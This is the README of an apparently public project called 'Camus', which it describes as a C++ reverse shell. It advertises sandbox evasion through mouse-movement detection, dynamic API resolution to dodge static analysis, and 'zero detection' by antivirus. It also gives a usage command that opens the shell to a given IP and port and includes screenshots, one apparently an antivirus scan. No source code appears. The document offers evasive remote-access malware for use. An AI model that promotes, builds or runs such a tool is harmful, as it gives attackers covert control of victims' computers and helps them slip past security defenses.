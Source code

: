 # Camus

<div style="text-align: center; ">
  <img src="Image/1.jpg" width="200">
</div>


Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass sandbox through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

Usage:
- Run the program alongside with the IP address and port as inputs for example: Camus.exe 192.168.1.1 555




[Notice] When you trying to test the tool remember to change the mouse cursor otherwise it would be terminated.



 <img src="Image/Antiscan.png" width="500">
 <img src="Image/2.png" width="800">
 <img src="Image/3.png" width="800">
